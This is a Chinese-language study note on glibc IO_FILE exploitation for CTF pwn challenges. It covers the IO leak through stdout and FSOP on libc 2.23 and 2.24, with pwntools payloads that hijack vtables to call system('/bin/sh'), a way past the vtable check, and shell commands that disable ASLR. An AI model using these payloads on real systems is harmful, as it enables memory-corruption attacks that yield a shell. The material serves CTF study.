


繁琐归繁琐，难归难，学还是要学的。

---

# IO_FILE相关结构体


## `stdin`,`stdout`,`stderr`

```c
_IO_FILE *stdin = (FILE *) &_IO_2_1_stdin_;
_IO_FILE *stdout = (FILE *) &_IO_2_1_stdout_;
_IO_FILE *stderr = (FILE *) &_IO_2_1_stderr_;
```

这三个是加载在**libc段**的（不是heap上分配的）

然后gdb看的时候也是

```c
x /gx _IO_2_1_stdout_
p &_IO_2_1_stdout_
```

这样看


## `_IO_FILE_plus`

`_IO_FILE_plus`结构体的定义为：

```c
struct _IO_FILE_plus
{
  _IO_FILE file;
  const struct _IO_jump_t *vtable;
};
```

---

下面分别来看`_IO_FILE`和`_IO_jump_t`

## `FILE`结构`_IO_FILE`

`FILE`结构定义在libio.h中

```c
struct _IO_FILE {
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;	/* Current read pointer */
  char* _IO_read_end;	/* End of get area. */
  char* _IO_read_base;	/* Start of putback+get area. */
  char* _IO_write_base;	/* Start of put area. */
  char* _IO_write_ptr;	/* Current put pointer. */
  char* _IO_write_end;	/* End of put area. */
  char* _IO_buf_base;	/* Start of reserve area. */
  char* _IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```

**进程中`FILE`结构通过`_chain`域构成一个链表，链表头部为`_IO_list_all`全局变量**。

默认情况下依次链接了`stderr`,`stdout`,`stdin`三个文件流，并将新建的流插入到头部。


## `FILE`结构各字段偏移

```
0x0   _flags
0x8   _IO_read_ptr
0x10  _IO_read_end
0x18  _IO_read_base
0x20  _IO_write_base
0x28  _IO_write_ptr
0x30  _IO_write_end
0x38  _IO_buf_base
0x40  _IO_buf_end
0x48  _IO_save_base
0x50  _IO_backup_base
0x58  _IO_save_end
0x60  _markers
0x68  _chain
0x70  _fileno
0x74  _flags2
0x78  _old_offset
0x80  _cur_column
0x82  _vtable_offset
0x83  _shortbuf
0x88  _lock
0x90  _offset
0x98  _codecvt
0xa0  _wide_data
0xa8  _freeres_list
0xb0  _freeres_buf
0xb8  __pad5
0xc0  _mode
0xc4  _unused2
0xd8  vtable
```


## `vtable`

`vtable`对应的结构体的定义为：

```c
const struct _IO_jump_t _IO_wstrn_jumps attribute_hidden =
{
  JUMP_INIT_DUMMY,
  JUMP_INIT(finish, _IO_wstr_finish),
  JUMP_INIT(overflow, (_IO_overflow_t) _IO_wstrn_overflow),
  JUMP_INIT(underflow, (_IO_underflow_t) _IO_wstr_underflow),
  JUMP_INIT(uflow, (_IO_underflow_t) _IO_wdefault_uflow),
  JUMP_INIT(pbackfail, (_IO_pbackfail_t) _IO_wstr_pbackfail),
  JUMP_INIT(xsputn, _IO_wdefault_xsputn),
  JUMP_INIT(xsgetn, _IO_wdefault_xsgetn),
  JUMP_INIT(seekoff, _IO_wstr_seekoff),
  JUMP_INIT(seekpos, _IO_default_seekpos),
  JUMP_INIT(setbuf, _IO_default_setbuf),
  JUMP_INIT(sync, _IO_default_sync),
  JUMP_INIT(doallocate, _IO_wdefault_doallocate),
  JUMP_INIT(read, _IO_default_read),
  JUMP_INIT(write, _IO_default_write),
  JUMP_INIT(seek, _IO_default_seek),
  JUMP_INIT(close, _IO_default_close),
  JUMP_INIT(stat, _IO_default_stat),
  JUMP_INIT(showmanyc, _IO_default_showmanyc),
  JUMP_INIT(imbue, _IO_default_imbue)
};
```

这个函数表中有`19`个函数，分别完成`IO`相关的功能，由`IO`函数调用，如`fwrite`最终会调用`__write`函数，`fread`会调用`__doallocate`来分配`IO`缓冲区等。


此外，还有`_IO_wide_data`结构体：

```c
struct _IO_wide_data
{
      wchar_t *_IO_read_ptr;   
      wchar_t *_IO_read_end;
      wchar_t *_IO_read_base;
      wchar_t *_IO_write_base;
      wchar_t *_IO_write_ptr;
      wchar_t *_IO_write_end;   
      wchar_t *_IO_buf_base;   
      wchar_t *_IO_buf_end;   
      [...]
      const struct _IO_jump_t *_wide_vtable;
};
```


还有一些宏的定义，在伪造`_IO_FILE`的时候需要对应修改`_flags`字段：**0xfbad1887**

```c
#define _IO_MAGIC 0xFBAD0000
#define _OLD_STDIO_MAGIC 0xFABC0000
#define _IO_MAGIC_MASK 0xFFFF0000
#define _IO_USER_BUF 1
#define _IO_UNBUFFERED 2
#define _IO_NO_READS 4
#define _IO_NO_WRITES 8
#define _IO_EOF_SEEN 0x10
#define _IO_ERR_SEEN 0x20
#define _IO_DELETE_DONT_CLOSE 0x40
#define _IO_LINKED 0x80
#define _IO_IN_BACKUP 0x100
#define _IO_LINE_BUF 0x200
#define _IO_TIED_PUT_GET 0x400
#define _IO_CURRENTLY_PUTTING 0x800
#define _IO_IS_APPENDING 0x1000
#define _IO_IS_FILEBUF 0x2000
#define _IO_BAD_SEEN 0x4000
#define _IO_USER_LOCK 0x8000
```


此外，许多`Pwn`题初始化的时候都会有下面三行：

```c
setvbuf(stdin, 0LL, 2, 0LL);
setvbuf(stdout, 0LL, 2, 0LL);
setvbuf(stderr, 0LL, 2, 0LL);
```

这是初始化程序的`io`结构体，只有初始化之后，`io`函数才能在程序过程中打印数据；

如果不初始化，就只能在`exit`结束的时候，才能一起把数据打印出来。


# Pwndbg相关使用

查看`_IO_FILE`：

```
p _IO_2_1_std_out_
```

查看`vtable`：

```
p _IO_file_jumps
```

查看伪造的file 结构：

```
fp 伪造的file结构地址
```


`_IO_FILE`结构：

```python
file = FileStructure()
file.flags = b'/bin/sh\x00'
file.vtable = ...
file._IO_save_base = ...
pl = bytes(file)
```


# IO leak

[关于IO leak的学习总结 - ZikH26 - 博客园 (cnblogs.com)](https://www.cnblogs.com/ZIKH26/articles/16627027.html)


## 原理：


可以leak libc

## 1. 申请

### 不同版本libc对于stdout的申请

这里只针对2.23，2.27，2.31讨论。

对于2.27和2.31版本，此时没有对tcache的next指针的保护机制，所以可以tcache_poisoning篡改next指针来申请stdout结构。

对于2.23版本，fastbin对申请的size有检查，可以伪造size的位置只有**malloc_hook-0x23**和**stdout-0x43**两处；所以仍然可以伪造fakechunk申请到stdout。


### 爆破1比特位申请stdout

使用IO_leak时，我们肯定是没有libcbase的，所以**无法直接将fd/next修改为stdout的地址**。

但我们可以对unsortedbin的fd指针进行利用。因为unsortedbin的fd指向main_arena+88或者main_arena+96，这是位于libc中的。

我们想办法**让unsortedbin的fd指针残留到fastbin或者tcachebin的fd上**，这样我们如果能**编辑fd**的话就能修改为stdout的地址。

stdout结构体的**后三位是固定的**，但倒数第四位因为ASLR会随机化，而我们只能写入两字节，不能一个半，因此需要爆破倒数第四位。

本地调试的时候可以先关闭ASLR，

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space # 关闭ASLR

echo 2 | sudo tee /proc/sys/kernel/randomize_va_space # 结束后改回来233
```

然后打远程的时候爆破直接写while循环就行。


## 2. 编辑

我们需要**覆盖stdout结构体中的`_flags`字段为0xfbad1887，并且覆盖`_IO_read_ptr`、`_IO_read_end`、`_IO_read_base`这三个指针为0，最后覆盖`_IO_write_base`指针的最后一字节为00** 

(这里并不是非要为00，因为到时候puts函数会泄露`_IO_write_base`指针与`_IO_write_ptr`指针之间的所有数据，只要将`_IO_write_base`指针改的小于`_IO_write_ptr`指针并且确定这二者之间存在libc地址，那么都是可以的，只不过我通常将其覆盖为\x00)


为什么要将`_flags`改为**0xfbad1887**？可以看[IO_FILE——leak 任意读 - 狒猩橙 - 博客园 (cnblogs.com)](https://www.cnblogs.com/pwnfeifei/p/15793432.html)

**0xfbad1880**也可以绕过检测，只是puts的时候就**没有`\n`换行**了，处理起来要注意点。


## 3. 泄露

完成前两步后，第三步执行puts函数就自然泄露了libc的地址。


## 例题

[de1ctf_2019_weapon](https://buuoj.cn/challenges#de1ctf_2019_weapon)


# FSOP（libc-2.23 & libc-2.24）





## libc-2.23 无检查

源码：

```c
int _IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  struct _IO_FILE *fp;
  int last_stamp;
 
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
    {
        ...
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
       || (_IO_vtable_offset (fp) == 0
           && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                    > fp->_wide_data->_IO_write_base))
#endif
       )
      && _IO_OVERFLOW (fp, EOF) == EOF)   //如果输出缓冲区有数据，刷新输出缓冲区
    result = EOF;
 
 
    fp = fp->_chain; //遍历链表
    }
    [...]
}
```

可以看到，当满足：

```c
fp->_mode = 0
fp->_IO_write_ptr > fp->_IO_write_base
```

就会调用`_IO_OVERFLOW()`函数(进行缓冲区检查)，而这里的`_IO_OVERFLOW`就是**文件流对象虚表的第四项**指向的内容`_IO_new_file_overflow`，

因此**在`libc-2.23`版本下**可如下构造，进行`FSOP`：

```c
._chain => chunk_addr
chunk_addr
{
  file = {
    _flags = "/bin/sh\x00", // （*）！对应此结构体首地址(fp) <===
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x1, // <===
      ...
      _mode = 0x0, //一般不用特意设置
      _unused2 = '\000' <repeats 19 times>
  },
  vtable = heap_addr // <===
}
heap_addr
{
  __dummy = 0x0,
  __dummy2 = 0x0,
  __finish = 0x0,
  __overflow = system_addr, // <===
    ...
}
```


因此这样构造，通过`_IO_OVERFLOW (fp)`，我们就实现了`system("/bin/sh\x00")`。


## 2.23 例题

[nsctf_online_2019_pwn1](https://buuoj.cn/challenges#nsctf_online_2019_pwn1)

### 思路

edit有一个数组下标可为负数；edit有一个off-by-null

先IO leak泄露libc，再打FSOP。


### 关键点

1. 覆盖时，要注意**不能破坏`_lock`字段**，不然puts的`_IO_acquire_lock (_IO_stdout);`操作会错误。
2. 这题没有用上面提到的`_IO_flush_all_lockp`来触发。

而是利用`puts`时会调用`vtable`中的`_IO_new_file_xsputn`函数。

**puts**：

```c
int
_IO_puts (const char *str)
{
  int result = EOF;
  _IO_size_t len = strlen (str);
  _IO_acquire_lock (_IO_stdout);

  if ((_IO_vtable_offset (_IO_stdout) != 0
       || _IO_fwide (_IO_stdout, -1) == -1)
      && _IO_sputn (_IO_stdout, str, len) == len
      && _IO_putc_unlocked ('\n', _IO_stdout) != EOF)
    result = MIN (INT_MAX, len + 1);

  _IO_release_lock (_IO_stdout);
  return result;
}

#ifdef weak_alias
weak_alias (_IO_puts, puts)
#endif
```

`_IO_sputn`其实就是下面vtable的这个。（经过一系列define）



`_IO_new_file_xsputn`在`libioP.h`中可以找到定义，`fileops.c`中可以看到实现。


重点在puts是通过`_IO_sputn (_IO_stdout, str, len)`形式调用，而


所以是换个方式来触发`_IO_OVERFLOW`的调用。


## libc-2.24 有检查

而**`libc-2.24`加入了对虚表的检查`IO_valcidate_vtable()`与`IO_vtable_check()`**，

若无法通过检查，则会报错：`Fatal error: glibc detected an invalid stdio handle`。

```c
#define _IO_OVERFLOW(FP, CH) JUMP1 (__overflow, FP, CH)
#define JUMP1(FUNC, THIS, X1) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)
# define _IO_JUMPS_FUNC(THIS) \
  (IO_validate_vtable                                                   \
   (*(struct _IO_jump_t **) ((void *) &_IO_JUMPS_FILE_plus (THIS)   \
                 + (THIS)->_vtable_offset)))
```

可见在最终调用`vtable`的函数之前，内联进了`IO_validate_vtable`函数，其源码如下：

```c
/* Check if unknown vtable pointers are permitted; otherwise,
   terminate the process.  */
void _IO_vtable_check (void) attribute_hidden;

/* Perform vtable pointer validation.  If validation fails, terminate
   the process.  */
static inline const struct _IO_jump_t *
IO_validate_vtable (const struct _IO_jump_t *vtable)
{
  /* Fast path: The vtable pointer is within the __libc_IO_vtables
     section.  */
  uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
  const char *ptr = (const char *) vtable;
  uintptr_t offset = ptr - __start___libc_IO_vtables;
  if (__glibc_unlikely (offset >= section_length)) // 判断offset是否在区间内
    /* The vtable pointer is not in the expected section.  Use the
       slow path, which will terminate the process if necessary.  */
    _IO_vtable_check ();
  return vtable;
}

```

`glibc`中有一段完整的内存存放着各个`vtable`，其中`__start___libc_IO_vtables`指向第一个`vtable`地址`_IO_helper_jumps`，而`__stop___libc_IO_vtables`指向最后一个`vtable_IO_str_chk_jumps`结束的地址。
若指针不在`glibc`的`vtable`段，会调用`_IO_vtable_check()`做进一步检查，以判断程序是否使用了外部合法的`vtable`（重构或是动态链接库中的`vtable`），如果不是则报错。
具体源码如下：

```c
void attribute_hidden _IO_vtable_check (void)
{
#ifdef SHARED
  void (*flag) (void) = atomic_load_relaxed (&IO_accept_foreign_vtables);
#ifdef PTR_DEMANGLE
  PTR_DEMANGLE (flag);
#endif
  if (flag == &_IO_vtable_check) //检查是否是外部重构的vtable
    return;
 
  {
    Dl_info di;
    struct link_map *l;
    if (_dl_open_hook != NULL
        || (_dl_addr (_IO_vtable_check, &di, &l, NULL) != 0
            && l->l_ns != LM_ID_BASE)) //检查是否是动态链接库中的vtable
      return;
  }
 
...
 
  __libc_fatal ("Fatal error: glibc detected an invalid stdio handle\n");
}
```

因此，最好的办法是：**我们伪造的`vtable`在`glibc`的`vtable`段中**，从而得以绕过该检查。
目前来说，有三种思路：

- 利用`_IO_str_jumps`中`_IO_str_overflow()`函数，
- 利用`_IO_str_jumps`中`_IO_str_finish()`函数
- 与利用`_IO_wstr_jumps`中对应的这两种函数；

先来介绍最为方便的：利用`_IO_str_jumps`中`_IO_str_finish()`函数的手段。

`_IO_str_jumps`的结构体如下：（在`strops.c`中）

```c
const struct _IO_jump_t _IO_str_jumps libio_vtable =
{
    JUMP_INIT_DUMMY,
    JUMP_INIT(finish, _IO_str_finish),
    JUMP_INIT(overflow, _IO_str_overflow),
    JUMP_INIT(underflow, _IO_str_underflow),
    JUMP_INIT(uflow, _IO_default_uflow),
    ...
}
```

其中，`_IO_str_finish`源代码如下：

```c
void _IO_str_finish (_IO_FILE *fp, int dummy)
{
  if (fp->_IO_buf_base && !(fp->_flags & _IO_USER_BUF))
    (((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base); //执行函数
  fp->_IO_buf_base = NULL;
  _IO_default_finish (fp, 0);
}
```

其中相关的`_IO_str_fields`结构体与`_IO_strfile_`结构体的定义：

```c
struct _IO_str_fields
{
  _IO_alloc_type _allocate_buffer;
  _IO_free_type _free_buffer;
};
 
typedef struct _IO_strfile_
{
  struct _IO_streambuf _sbf;
  struct _IO_str_fields _s;
} _IO_strfile;
```

可以看到，它使用了`IO`结构体中的值**当作函数地址来直接调用**；

如果满足条件，将直接将`fp->_s._free_buffer`当作**函数指针**来调用。

首先，仍然需要绕过之前的`_IO_flush_all_lokcp`函数中的输出缓冲区的检查`_mode<=0`以及`_IO_write_ptr>_IO_write_base`**进入到`_IO_OVERFLOW`中**。

我们可以**将`vtable`的地址覆盖成`_IO_str_jumps-8`**，这样会使得`_IO_str_finish`函数成为了伪造的`vtable`地址的`_IO_OVERFLOW`函数（因为`_IO_str_finish`偏移为`_IO_str_jumps`中`0x10`，而`_IO_OVERFLOW`为`0x18`）。这个`vtable`（地址为`_IO_str_jumps-8`）可以绕过检查，因为它在`vtable`的地址段中。
构造好`vtable`之后，需要做的就是构造`IO FILE`结构体其他字段，以进入将`fp->_s._free_buffer`当作函数指针的调用：先构造`fp->_IO_buf_base`为`'/bin/sh'`的地址，然后构造`fp->_flags`不包含`_IO_USER_BUF`，它的定义为`#define _IO_USER_BUF 1`，即`fp->_flags`最低位为`0`。
最后构造`fp->_s._free_buffer`为`system_addr`或`one gadget`即可`getshell`。

由于`libc`中没有`_IO_str_jump`的符号，因此可以通过`_IO_str_jumps`是`vtable`中的倒数第二个表，用`vtable`的最后地址减去`0x168`定位。
也可以用如下函数进行定位：

```python
# libc.address = libc_base
def get_IO_str_jumps():
    IO_file_jumps_addr = libc.sym['_IO_file_jumps']
    IO_str_underflow_addr = libc.sym['_IO_str_underflow']
    for ref in libc.search(p64(IO_str_underflow_addr-libc.address)):
        possible_IO_str_jumps_addr = ref - 0x20
        if possible_IO_str_jumps_addr > IO_file_jumps_addr:
            return possible_IO_str_jumps_addr
```

可以进行如下构造：

```c
._chain => chunk_addr
chunk_addr
{
  file = {
    _flags = 0x0,
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x1,
    _IO_write_end = 0x0,
    _IO_buf_base = bin_sh_addr,
      ...
      _mode = 0x0, //一般不用特意设置
      _unused2 = '\000' <repeats 19 times>
  },
  vtable = _IO_str_jumps-8 //chunk_addr + 0xd8 ~ +0xe0
}
+0xe0 ~ +0xe8 : 0x0
+0xe8 ~ +0xf0 : system_addr / one_gadget //fp->_s._free_buffer
```

利用`house of orange`（见下文）构造的`payload`：

```python
payload = p64(0) + p64(0x60) + p64(0) + p64(libc.sym['_IO_list_all'] - 0x10) #unsorted bin attack
payload += p64(0) + p64(1) + p64(0) + p64(next(libc.search(b'/bin/sh')))
payload = payload.ljust(0xd8, b'\x00') + p64(get_IO_str_jumps() - 8)
payload += p64(0) + p64(libc.sym['system'])
```

再来介绍一下：利用`_IO_str_jumps`中`_IO_str_overflow()`函数的手段。
`_IO_str_overflow()`函数的源码如下：

```c
int _IO_str_overflow (_IO_FILE *fp, int c)
{
  int flush_only = c == EOF;
  _IO_size_t pos;
  if (fp->_flags & _IO_NO_WRITES)
      return flush_only ? 0 : EOF;
  if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))
    {
      fp->_flags |= _IO_CURRENTLY_PUTTING;
      fp->_IO_write_ptr = fp->_IO_read_ptr;
      fp->_IO_read_ptr = fp->_IO_read_end;
    }
  pos = fp->_IO_write_ptr - fp->_IO_write_base;
  if (pos >= (_IO_size_t) (_IO_blen (fp) + flush_only))
    {
      if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
    return EOF;
      else
    {
      char *new_buf;
      char *old_buf = fp->_IO_buf_base;
      size_t old_blen = _IO_blen (fp);
      _IO_size_t new_size = 2 * old_blen + 100;
      if (new_size < old_blen)
        return EOF;
      new_buf
        = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size); // 调用了fp->_s._allocate_buffer函数指针
      if (new_buf == NULL)
        {
          /*      __ferror(fp) = 1; */
          return EOF;
        }
      if (old_buf)
        {
          memcpy (new_buf, old_buf, old_blen);
          (*((_IO_strfile *) fp)->_s._free_buffer) (old_buf);
          /* Make sure _IO_setb won't try to delete _IO_buf_base. */
          fp->_IO_buf_base = NULL;
        }
      memset (new_buf + old_blen, '\0', new_size - old_blen);
 
      _IO_setb (fp, new_buf, new_buf + new_size, 1);
      fp->_IO_read_base = new_buf + (fp->_IO_read_base - old_buf);
      fp->_IO_read_ptr = new_buf + (fp->_IO_read_ptr - old_buf);
      fp->_IO_read_end = new_buf + (fp->_IO_read_end - old_buf);
      fp->_IO_write_ptr = new_buf + (fp->_IO_write_ptr - old_buf);
 
      fp->_IO_write_base = new_buf;
      fp->_IO_write_end = fp->_IO_buf_end;
    }
    }
 
  if (!flush_only)
    *fp->_IO_write_ptr++ = (unsigned char) c;
  if (fp->_IO_write_ptr > fp->_IO_read_end)
    fp->_IO_read_end = fp->_IO_write_ptr;
  return c;
}
```

和之前利用`_IO_str_finish`的思路差不多，可以看到其中调用了`fp->_s._allocate_buffer`函数指针，其参数`rdi`为`new_size`，

因此，我们将`_s._allocate_buffer`改为`system`的地址，`new_size`改为`'/bin/sh'`的地址，

又`new_size = 2 * old_blen + 100`，也就是`new_size = 2 * _IO_blen (fp) + 100`，

可以找到宏定义：

`#define _IO_blen(fp) ((fp)->_IO_buf_end - (fp)->_IO_buf_base)`，

因此`new_size = 2 * ((fp)->_IO_buf_end - (fp)->_IO_buf_base) + 100`，

故我们可以使**`_IO_buf_base = 0`，`_IO_buf_end = (bin_sh_addr - 100) // 2`**，

当然还不能忘了需要绕过`_IO_flush_all_lokcp`函数中的输出缓冲区的检查

**`_mode<=0`以及`_IO_write_ptr>_IO_write_base`**

才能进入到`_IO_OVERFLOW`中，

故令`_IO_write_ptr = 0xffffffffffffffff`且`_IO_write_base = 0x0`即可。
最终可按如下布局`fake IO_FILE`：

```c
._chain => chunk_addr
chunk_addr
{
  file = {
    _flags = 0x0,
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x1,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = (bin_sh_addr - 100) // 2,
      ...
      _mode = 0x0, //一般不用特意设置
      _unused2 = '\000' <repeats 19 times>
  },
  vtable = _IO_str_jumps //chunk_addr + 0xd8 ~ +0xe0
}
+0xe0 ~ +0xe8 : system_addr / one_gadget //fp->_s._allocate_buffer
```

参考`payload`（劫持的`stdout`）：

```python
new_size = libc_base + next(libc.search(b'/bin/sh'))
payload = p64(0xfbad2084)
payload += p64(0) # _IO_read_ptr
payload += p64(0) # _IO_read_end
payload += p64(0) # _IO_read_base
payload += p64(0) # _IO_write_base
payload += p64(0xffffffffffffffff) # _IO_write_ptr
payload += p64(0) # _IO_write_end
payload += p64(0) # _IO_buf_base
payload += p64((new_size - 100) // 2) # _IO_buf_end
payload += p64(0) * 4
payload += p64(libc_base + libc.sym["_IO_2_1_stdin_"])
payload += p64(1) + p64((1<<64) - 1)
payload += p64(0) + p64(libc_base + 0x3ed8c0) #lock
payload += p64((1<<64) - 1) + p64(0)
payload += p64(libc_base + 0x3eb8c0)
payload += p64(0) * 6
payload += p64(libc_base + get_IO_str_jumps_offset()) # _IO_str_jumps
payload += p64(libc_base + libc.sym["system"])
```


## >=libc-2.28 失效

而在**`libc-2.28`及以后**，由于不再使用偏移找`_s._allocate_buffer`和`_s._free_buffer`，而是直接用`malloc`和`free`代替，所以`FSOP`也失效了。


